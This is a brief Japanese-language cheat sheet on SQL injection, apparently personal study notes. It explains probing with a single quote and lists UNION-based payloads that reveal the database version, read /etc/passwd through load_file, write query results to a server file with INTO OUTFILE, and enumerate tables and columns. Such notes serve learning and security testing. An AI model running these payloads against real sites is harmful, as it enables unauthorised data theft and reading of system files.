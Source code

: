 # SQLi

## 検証方法

* 入力値に`'`を入力してエラーの有無を検証
* エラーが帰らない場合もある。
* 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。

## サンプル

* `' union select version() ; #` でdbのバージョン表示  *MariaDB
* `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
* `' union select column_name from table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
* `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
